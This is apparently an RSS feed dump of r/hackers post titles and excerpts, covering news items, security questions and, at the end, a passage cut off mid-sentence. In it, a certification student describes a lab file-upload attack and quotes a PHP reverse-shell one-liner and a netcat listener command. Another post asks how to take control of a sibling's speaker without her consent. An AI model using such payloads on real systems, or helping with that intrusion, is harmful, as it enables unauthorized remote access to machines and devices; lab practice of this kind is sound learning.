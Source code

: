 # Source:Hackers, URL:https://www.reddit.com/r/hackers/.rss, language:en

## If it were true that Elon musk hacked the voting machines for a Trump win, would it be possible to get proof?
 - [https://www.reddit.com/r/hackers/comments/1ipeum1/if_it_were_true_that_elon_musk_hacked_the_voting](https://www.reddit.com/r/hackers/comments/1ipeum1/if_it_were_true_that_elon_musk_hacked_the_voting)
 - RSS feed: $source
 - date published: 2025-02-14T16:45:07+00:00

<!-- SC_OFF --><div class="md"><p>Just a curious question from a tech illiterate user</p> </div><!-- SC_ON --> &#32; submitted by &#32; <a href="https://www.reddit.com/user/Alternative_Ad3512"> /u/Alternative_Ad3512 </a> <br/> <span><a href="https://www.reddit.com/r/hackers/comments/1ipeum1/if_it_were_true_that_elon_musk_hacked_the_voting/">[link]</a></span> &#32; <span><a href="https://www.reddit.com/r/hackers/comments/1ipeum1/if_it_were_true_that_elon_musk_hacked_the_voting/">[comments]</a></span>

## 'Experts left database open': Hackers mock Elon Musk after easily defacing his DOGE site
 - [https://www.reddit.com/r/hackers/comments/1ipdagx/experts_left_database_open_hackers_mock_elon_musk](https://www.reddit.com/r/hackers/comments/1ipdagx/experts_left_database_open_hackers_mock_elon_musk)
 - RSS feed: $source
 - date published: 2025-02-14T15:37:35+00:00

<table> <tr><td> <a href="https://www.reddit.com/r/hackers/comments/1ipdagx/experts_left_database_open_hackers_mock_elon_musk/"> <img src="https://external-preview.redd.it/ZORRFjPYZLbruMKuzGz2gwGhbSrkAKZdUUp0JlUNQoE.jpg?width=640&amp;crop=smart&amp;auto=webp&amp;s=bb7894b965e475c9ad9c7b2abb61175c1544b30f" alt="'Experts left database open': Hackers mock Elon Musk after easily defacing his DOGE site" title="'Experts left database open': Hackers mock Elon Musk after easily defacing his DOGE site" /> </a> </td><td> &#32; submitted by &#32; <a href="https://www.reddit.com/user/wholehheart"> /u/wholehheart </a> <br/> <span><a href="https://www.rawstory.com/elon-musk-doge-2671156654/">[link]</a></span> &#32; <span><a href="https://www.reddit.com/r/hackers/comments/1ipdagx/experts_left_database_open_hackers_mock_elon_musk/">[comments]</a></span> </td></tr></table>

## How to crash the sound?!
 - [https://www.reddit.com/r/hackers/comments/1ipd9c1/how_to_crash_the_sound](https://www.reddit.com/r/hackers/comments/1ipd9c1/how_to_crash_the_sound)
 - RSS feed: $source
 - date published: 2025-02-14T15:36:14+00:00

<!-- SC_OFF --><div class="md"><p>A younger sibling of mine is just a loud human being. Plays loud music and doesn’t care if it’s bothering other people. She had a google speaker and I was able to hack into it with the google app and turn down the sound, she noticed it was tweaking so, she got a new speaker and I don’t know the name of it. But it’s loud in the morning while I’m still sleeping. How can I hack into the speaker and at least limit its volume to 25% or something like that? The speaker sounds pretty big and bassey, it’s really loud and annoying. </p> </div><!-- SC_ON --> &#32; submitted by &#32; <a href="https://www.reddit.com/user/Lion-beans5"> /u/Lion-beans5 </a> <br/> <span><a href="https://www.reddit.com/r/hackers/comments/1ipd9c1/how_to_crash_the_sound/">[link]</a></span> &#32; <span><a href="https://www.reddit.com/r/hackers/comments/1ipd9c1/how_to_crash_the_sound/">[comments]</a></span>

## As a hacker how do you configure your wireless home router for security?
 - [https://www.reddit.com/r/hackers/comments/1ip84y8/as_a_hacker_how_do_you_configure_your_wireless](https://www.reddit.com/r/hackers/comments/1ip84y8/as_a_hacker_how_do_you_configure_your_wireless)
 - RSS feed: $source
 - date published: 2025-02-14T11:01:26+00:00

<!-- SC_OFF --><div class="md"><p>When it comes to securing a home network, what are the best practices that ethical hackers and cybersecurity experts follow? From disabling WPS to setting up VLANs, what are the key steps to hardening a router against attacks?</p> </div><!-- SC_ON --> &#32; submitted by &#32; <a href="https://www.reddit.com/user/MrShadowDev"> /u/MrShadowDev </a> <br/> <span><a href="https://www.reddit.com/r/hackers/comments/1ip84y8/as_a_hacker_how_do_you_configure_your_wireless/">[link]</a></span> &#32; <span><a href="https://www.reddit.com/r/hackers/comments/1ip84y8/as_a_hacker_how_do_you_configure_your_wireless/">[comments]</a></span>

## Convicted Russian Cybercriminal Returns To Russia After Release Of American
 - [https://www.reddit.com/r/hackers/comments/1ip5gmz/convicted_russian_cybercriminal_returns_to_russia](https://www.reddit.com/r/hackers/comments/1ip5gmz/convicted_russian_cybercriminal_returns_to_russia)
 - RSS feed: $source
 - date published: 2025-02-14T07:41:01+00:00

<table> <tr><td> <a href="https://www.reddit.com/r/hackers/comments/1ip5gmz/convicted_russian_cybercriminal_returns_to_russia/"> <img src="https://external-preview.redd.it/lHRsrkEsU0jWVDTsZjLsrq1BnaNcVze5VbxTm-r5_PE.jpg?width=640&amp;crop=smart&amp;auto=webp&amp;s=d9a15dd580cd4fdb30fb289c28b4d34bc5b3b123" alt="Convicted Russian Cybercriminal Returns To Russia After Release Of American" title="Convicted Russian Cybercriminal Returns To Russia After Release Of American" /> </a> </td><td> &#32; submitted by &#32; <a href="https://www.reddit.com/user/Miao_Yin8964"> /u/Miao_Yin8964 </a> <br/> <span><a href="https://www.rferl.org/a/russia-vinnik-fogel-trump-prisoner-exhange/33314401.html">[link]</a></span> &#32; <span><a href="https://www.reddit.com/r/hackers/comments/1ip5gmz/convicted_russian_cybercriminal_returns_to_russia/">[comments]</a></span> </td></tr></table>

## Is it possible for someone to hack your phone’s audio if they’re using the same WiFi connection?
 - [https://www.reddit.com/r/hackers/comments/1iozv2d/is_it_possible_for_someone_to_hack_your_phones](https://www.reddit.com/r/hackers/comments/1iozv2d/is_it_possible_for_someone_to_hack_your_phones)
 - RSS feed: $source
 - date published: 2025-02-14T02:04:25+00:00

<!-- SC_OFF --><div class="md"><p>I’m not sure if I’m being paranoid or not, but I’m suspicious of someone hacking into my phone’s audio when I plug in my earphones. Is this possible if you are in the same home and using the same WiFi connection? </p> </div><!-- SC_ON --> &#32; submitted by &#32; <a href="https://www.reddit.com/user/krissybxo"> /u/krissybxo </a> <br/> <span><a href="https://www.reddit.com/r/hackers/comments/1iozv2d/is_it_possible_for_someone_to_hack_your_phones/">[link]</a></span> &#32; <span><a href="https://www.reddit.com/r/hackers/comments/1iozv2d/is_it_possible_for_someone_to_hack_your_phones/">[comments]</a></span>

## Why is my reverse web shell displaying the php contents?
 - [https://www.reddit.com/r/hackers/comments/1ioze1h/why_is_my_reverse_web_shell_displaying_the_php](https://www.reddit.com/r/hackers/comments/1ioze1h/why_is_my_reverse_web_shell_displaying_the_php)
 - RSS feed: $source
 - date published: 2025-02-14T01:39:10+00:00

<!-- SC_OFF --><div class="md"><p>I&#39;m studying for the PNPT cert and am working on web shells via file upload vulnerabilities. One challenge I&#39;m working on, is to get a reverse shell. So here&#39;s what I did:</p> <p>I uploaded a jpg file and intercepted this via Burp. I sent the POST request to the repeater and changed the filename to exploit.php. I then replaced all of the image data to this reverse shell I got from <a href="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php">SwissKeyRepo</a>:</p> <p><code>php -r &#39;$sock=fsockopen(&quot;&lt;IP_HERE&gt;&quot;,4242);$proc=proc_open(&quot;/bin/sh -i&quot;, array(0=&gt;$sock, 1=&gt;$sock, 2=&gt;$sock),$pipes);&#39;</code></p> <p>Before I hit &#39;send&#39;, I started a netcat listener via <code>nc -nvlp 4242</code>, then hit &#39;send&#39;. I refreshed the page and the php file uploaded successfully. I navigated to the file path <code>localhost/labs/uploads/exploit.php</code>, and it

